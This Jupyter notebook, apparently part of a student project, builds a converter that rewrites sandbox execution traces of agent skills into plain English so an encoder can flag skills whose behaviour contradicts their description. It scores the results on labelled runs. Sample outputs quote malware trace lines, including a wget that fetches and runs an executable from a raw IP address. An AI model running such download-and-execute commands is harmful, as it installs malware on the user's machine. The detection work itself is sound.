# 03 — Enriched trace-to-text

**CRISP-DM phase: Modelling, component 2 of 4.** Notebook 02 fed the encoder a *flat* trace
(`file read /etc/hosts; network connect 172.30.0.2:443 (failed); …`). This notebook builds and checks the
**enriched** converter (`src/preprocessing/trace_to_text.py: trace_to_enriched_text`), which rewrites the trace as
short plain-English phrases and names the sensitive actions explicitly.

Same rules as notebook 02: **only the fine-tune and calibration splits**. The test split stays locked, and the
rules were written by looking at non-test runs only.

Stages:
1. Why the flat text is a poor input
2. The conversion rules
3. Flat vs enriched, side by side
4. Length: does it fit the encoder now?
5. Does it separate POS from NEG better? (same pretrained model, same score)
6. Runs with an empty trace
7. Save the scores

In [1]:
import sys
from pathlib import Path
sys.path.insert(0, str(Path.cwd().parent))  # make src/ importable from notebooks/

import collections
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
from sklearn.metrics import roc_auc_score

from src.config import RESULTS_DIR
from src.data.merge_labels import load_labelled_dataset
from src.preprocessing.trace_to_text import trace_to_enriched_text, trace_to_flat_text, TOOL_CONFIG_READS
from src.embedding.encoder import Encoder
from src.embedding.similarity import consistency_scores

FLAT_COLOR, ENRICHED_COLOR = "#2a78d6", "#eb6834"
rows = load_labelled_dataset(("finetune", "calibration"))   # test is locked
y = np.array([r["label"] for r in rows]); modes = np.array([r["mode"] for r in rows])
enc = Encoder()
print(len(rows), "dev runs")

191 dev runs


## 1. Why the flat text is a poor input
- **Too long:** about half the flat traces are over the model's 256-token limit, so the end is cut off, which is
  often where the payload is.
- **Noise:** many events are things a *tool* did by itself, not what the skill asked for. `curl` reads `~/.curlrc`
  and `~/.netrc` automatically; every network program reads `/etc/hosts`.
- **Meaningless destinations:** in the sealed sandbox every domain resolves to the fake-internet server
  `172.30.0.2`, so a connection event says nothing about *where* it was really going.
- **Raw syntax:** `process exec curl -X POST https://… -d @/tmp/x` doesn't share vocabulary with a description
  like *"track your parcels"*. *"sends data to api.example.com"* does.

In [2]:
noise = collections.Counter()
for r in rows:
    for a in r["trace"]:
        if a["action"] == "file_read" and TOOL_CONFIG_READS.search(a["target"]):
            noise[a["target"]] += 1
        if a["action"] == "network_connect" and a["target"].startswith("172.30.0.2:"):
            noise["network connect to the sandbox's fake-internet server"] += 1
pd.DataFrame(noise.most_common(8), columns=["noise event (dropped or folded)", "count in dev traces"])

,noise event (dropped or folded),count in dev traces
0,network connect to the sandbox's fake-internet...,189
1,/etc/hosts,185
2,/root/.curlrc,128
3,/root/.config/curlrc,128
4,/root/.npmrc,44
5,/etc/netsvc.conf,32
6,/etc/svc.conf,32
7,/workspace/.npmrc,19


## 2. The conversion rules
Each one is a design decision for the report (also listed at the top of `trace_to_text.py`):

| rule | why |
|---|---|
| The text depends on the **trace only**, never on the description | comparing the two is the *score's* job (and the structural flags'), not the text's |
| `skill_load` is dropped | its target is the skill's **name**, which resembles the description: free consistency (leak found in notebook 02) |
| Tool-internal reads are dropped (`~/.curlrc`, `~/.netrc` read by curl/python, `/etc/hosts`, …) | the skill didn't ask for them |
| Each process becomes what it *does*: *downloads from*, *sends data to*, *runs Python script X*, *decodes base64 data* | shares vocabulary with descriptions |
| Connections to the fake-internet server are folded into the command that made them, plus *(connection failed)* | the sinkhole IP says nothing; the command's URL does |
| The URL path is kept as words (`/v1/rank/users` → *rank users*) | which API was called is behaviour |
| Sensitive actions are named: *reads credential file*, *modifies startup or system file*, *raw IP address*, *reverse shell* | the design requires them to be explicit |
| Reads/writes/deletes are grouped per project folder | 20 file writes become *writes 20 files in /workspace/demo* |
| Each phrase has a priority; when the text is too long, **low** (listing, own skill files) then **medium** go first | the payload is never the part that gets cut |

## 3. Flat vs enriched, side by side
Three inconsistent (POS) runs and two consistent (NEG) ones.

In [3]:
def side_by_side(sid):
    r = next(r for r in rows if r["sample_id"] == sid)
    print(f"[{r['mode']}] {sid}   label={r['label']} ({'inconsistent' if r['label'] else 'consistent'})")
    print("  DESCRIPTION:", r["description"][:160])
    print("  FLAT       :", trace_to_flat_text(r["trace"])[:300], "...")
    print("  ENRICHED   :", trace_to_enriched_text(r["trace"]))
    print()

for sid in ["malware/3d-games__CI_B5", "malware/forgotten-elements-reminder", "malware/nano-pdf-yqsfx",
            "malware/alphafold-database__MIXED_B6", "benign/openclaw-skill-scanner"]:
    side_by_side(sid)

[direct] malware/3d-games__CI_B5   label=1 (inconsistent)
  DESCRIPTION: 3D game development principles. Rendering, shaders, physics, cameras.
  FLAT       : process exec python scripts/game_launcher.py; file read skill/scripts/game_launcher.py; file read skill/scripts; network connect 145.249.104.71:80 (failed) ...
  ENRICHED   : Runs Python script game_launcher.py, then reads its own skill files, then connects to raw IP address 145.249.104.71 on port 80 (connection failed)

[instructed] malware/forgotten-elements-reminder   label=1 (inconsistent)
  DESCRIPTION: 当重要的故事元素（角色、情节线、伏笔）10章以上未出现时自动提醒 - 防止长篇小说中的'角色消失综合症'和遗漏的情节线
  FLAT       : command python3 /workspace/.opencode/skills/target-skill/Updater_1.4.4_x64.exe; file read skill/Updater_1.4.4_x64.exe (failed); command wget http://45.88.180.54/DONTTUCHTHIS/Updater_1.4.4_x64.exe -O /tmp/opencode/Updater_1.4.4_x64.exe ...
  ENRICHED   : Runs Python script Updater_1.4.4_x64.exe, then reads its own skill files, then downloads from raw IP 

## 4. Length: does it fit the encoder now?

Token indices sequence length is longer than the specified maximum sequence length for this model (394 > 256). Running this sequence through the model will result in indexing errors


    text  median tokens  max tokens  over the 256-token limit
    flat            222       10854                        91
enriched             51         246                         0




In [4]:
flat = [trace_to_flat_text(r["trace"]) for r in rows]
enriched = [trace_to_enriched_text(r["trace"]) for r in rows]
tok_f, tok_e = np.array(enc.n_tokens(flat)), np.array(enc.n_tokens(enriched))
print(pd.DataFrame({"text": ["flat", "enriched"],
                    "median tokens": [int(np.median(tok_f)), int(np.median(tok_e))],
                    "max tokens": [tok_f.max(), tok_e.max()],
                    f"over the {enc.max_tokens}-token limit": [(tok_f > enc.max_tokens).sum(), (tok_e > enc.max_tokens).sum()]}).to_string(index=False))

fig, ax = plt.subplots(figsize=(7, 3))
bins = np.linspace(0, 1000, 41)
ax.hist(np.minimum(tok_f, 1000), bins=bins, histtype="step", linewidth=2, color=FLAT_COLOR, label="flat")
ax.hist(np.minimum(tok_e, 1000), bins=bins, histtype="step", linewidth=2, color=ENRICHED_COLOR, label="enriched")
ax.axvline(enc.max_tokens, color="#52514e", linestyle="--", linewidth=1.5)
ax.text(enc.max_tokens + 15, ax.get_ylim()[1] * 0.85, f"model reads {enc.max_tokens} tokens", color="#52514e")
ax.set(title="Trace text length (tokens, capped at 1,000)", xlabel="tokens", ylabel="runs")
ax.legend(frameon=False); ax.spines[["top", "right"]].set_visible(False)
plt.tight_layout(); plt.show()

## 5. Does it separate POS from NEG better?
Same pretrained model and same score as notebook 02; only the trace text changes. **Empty-trace runs** (the agent
loaded the skill and did nothing) are reported separately; see stage 6.

In [5]:
D = enc.encode([r["description"] for r in rows])
s_flat = consistency_scores(D, enc.encode(flat))
s_enr = consistency_scores(D, enc.encode(enriched))
empty = np.array([t == "Does nothing observable" for t in enriched])

def aucs(s):
    row = {"all dev runs": roc_auc_score(y, -s), "non-empty traces": roc_auc_score(y[~empty], -s[~empty])}
    for m in ["agent", "direct", "instructed"]:
        k = modes == m
        row[f"{m} (n={k.sum()}, POS={y[k].sum()})"] = roc_auc_score(y[k], -s[k])
    return row

pd.DataFrame({"flat (notebook 02)": aucs(s_flat), "enriched": aucs(s_enr)}).T.round(3)

,all dev runs,non-empty traces,"agent (n=32, POS=5)","direct (n=91, POS=45)","instructed (n=68, POS=44)"
flat (notebook 02),0.687,0.734,0.511,0.771,0.643
enriched,0.651,0.719,0.474,0.802,0.496


## 6. Runs with an empty trace
Some runs record nothing but the skill loading. All are NEG (nothing undeclared happened), which is correct, but a
pure similarity score can't express "did nothing": *"Does nothing observable"* is dissimilar to every description,
so these get a **low** score and would be wrongly flagged. That is not something better text can fix. It is a job for
the later components: the structural flags (none fire on an empty trace) and the calibration layer (which can use
the trace length as a feature).

In [6]:
print(collections.Counter((r["mode"], r["reviewed_outcome"]) for r, e in zip(rows, empty) if e))
print(f"mean enriched score: empty-trace runs {s_enr[empty].mean():.3f}   other NEG runs {s_enr[~empty & (y == 0)].mean():.3f}")

Counter({('instructed', 'ran_clean'): 6, ('instructed', 'payload_incidental'): 4, ('agent', 'task_attempted'): 1})
mean enriched score: empty-trace runs 0.495   other NEG runs 0.648


## 7. Save the scores

In [7]:
out = RESULTS_DIR / "enriched_pretrained_dev_scores.csv"
pd.DataFrame({"sample_id": [r["sample_id"] for r in rows], "mode": modes, "label": y,
              "score_flat": s_flat.round(4), "score_enriched": s_enr.round(4),
              "tokens_flat": tok_f, "tokens_enriched": tok_e, "empty_trace": empty.astype(int),
              "enriched_text": enriched}).to_csv(out, index=False)
print("saved", out)

saved /Users/khawceline03/Desktop/Projects/School/Divergence/results/enriched_pretrained_dev_scores.csv


## What this shows
- **Length is solved:** no enriched trace is cut off (flat: about half were), at about a fifth of the tokens. The
  payload is always inside what the model reads.
- **With a pretrained model, the score barely moves.** On runs that did something, flat and enriched separate POS/NEG
  about equally. Enrichment helps **direct** mode and does not help **instructed** mode. This is an honest result: a
  pretrained encoder has never seen phrases like *"sends data to raw IP address"* paired with skill descriptions, so
  it can't yet use them.
- **Where enrichment should pay off is the next two components.** SetFit fine-tuning learns what these phrases mean
  for consistency, and the structural flags read the same named actions. Exp 2 (enrichment ablation) measures it
  properly: flat vs enriched, *after* fine-tuning.
- **Empty traces** need the flags and calibration layer, not better text.
- **Rules are frozen now.** Tuning them further against these same 191 runs would fit the rules to this data.

**Next:** `04_structural_flags.ipynb`, the three rule-based red flags.